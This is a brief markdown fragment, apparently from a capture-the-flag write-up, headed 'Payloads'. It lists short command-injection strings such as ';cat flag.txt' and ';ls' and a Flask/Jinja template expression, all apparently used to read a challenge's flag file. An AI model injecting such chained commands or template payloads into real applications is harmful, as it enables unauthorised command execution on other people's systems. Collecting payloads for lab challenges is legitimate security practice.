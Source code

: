 ### { Payloads }

---

```py
ls;ls
```

```py
;cat flag.txt
```
```py
;ls
```
```py
{{request.args|safe}}
```
